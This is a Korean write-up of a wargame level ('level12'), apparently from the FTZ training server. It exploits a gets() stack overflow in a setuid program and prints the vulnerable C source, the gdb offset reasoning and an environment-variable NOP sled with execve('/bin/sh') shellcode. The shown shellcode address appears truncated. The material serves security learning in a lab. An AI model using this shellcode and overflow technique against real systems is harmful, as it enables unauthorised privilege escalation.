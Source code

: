 level12
===
1. hint 파일을 열어보면 다음과 같은 메세지가 적혀져 있는 것을 볼 수 있다.
```c
#include<stdio.h>
#include<stdlib.h>
#include<unistd.h>

int main(){
    char str[256];

    setreuid(3093, 3093);
    printf("문장을 입력하세요.\n");
    gets(str);
    printf("%s\n", str);
}
```
이것은 attackme의 소스이다. 이 소스를 보니 전 단계인 level11의 풀이와 비슷해 보인다. 
2. gdb attackme -> disas main에서 보면 264만큼이 할당되는 것을 찾을 수 있다. 그래서 level11과 같이 264+4(SPF(dummy값을 넣을 예정))+shellcode의 주소를 넣어 level13의 권한에 접근할 계획이다.
3. 환경변수 shellcode를 만든다. 만드는 방법은 다음과 같다.

__export shellcode=`python -c'print"\x90"*1000+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80"'`__

4. shellcode의 주소를 구하면(/tmp/getenv shellcode) 다음과 같다.
               
            __0xbfffb19__
5. 위에서 구한 주소를 이용하여 attackme를 공격하면 level13의 권한을 취득할 수 있다. 여기서 my-pass를 입력하면 level13의 password를 입력할 수 있다. 
